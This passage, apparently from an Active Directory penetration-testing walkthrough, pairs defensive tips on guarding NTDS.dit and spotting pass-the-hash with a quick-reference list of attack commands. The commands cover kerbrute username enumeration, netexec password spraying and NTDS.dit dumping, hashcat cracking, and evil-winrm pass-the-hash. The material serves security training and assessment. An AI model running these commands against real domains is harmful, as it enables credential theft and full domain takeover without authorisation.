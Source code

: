 ### Protecting NTDS.dit
- **Restrict administrative access** to Domain Controllers
- **Monitor VSS creation** and NTDS file access
- **File integrity monitoring** on critical AD files
- **Backup encryption** and secure storage

### Detecting Pass-the-Hash
- **Monitor for logons** with unusual patterns
- **Detect lateral movement** between systems
- **Hash rotation** for service accounts
- **Privileged Access Workstations** (PAWs)

## 📋 Quick Reference Commands

### Username Enumeration
```bash
./kerbrute userenum --dc DC_IP --domain DOMAIN usernames.txt -v -o valid_users.txt
```

### Password Spraying
```bash
netexec smb DC_IP -u valid_users.txt -p 'Password123!' --continue-on-success -d DOMAIN.local
```

### NTDS.dit Extraction
```bash
netexec smb DC_IP -u USER -p PASS -d DOMAIN.local -M ntdsutil
# OR direct extraction:
netexec smb DC_IP -u USER -p PASS -d DOMAIN.local --ntds
```

### Hash Cracking
```bash
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```

### Pass-the-Hash
```bash
evil-winrm -i TARGET_IP -u Administrator -H NTHASH
```

---

## 🎯 Key Takeaways

1. **OSINT is critical** - Real employee names lead to valid usernames
2. **Username enumeration first** - Validate targets before password attacks
3. **Password spraying > brute force** - Less likely to trigger lockouts
4. **NTDS.dit = domain ownership** - Every account's hash in one file
5. **Pass-the-Hash when cracking fails** - Hashes are often as good as passwords
6. **Domain Admin = total compromise** - Can access any system in the domain

**Remember**: The goal is demonstrating complete domain compromise and business impact! 🏆 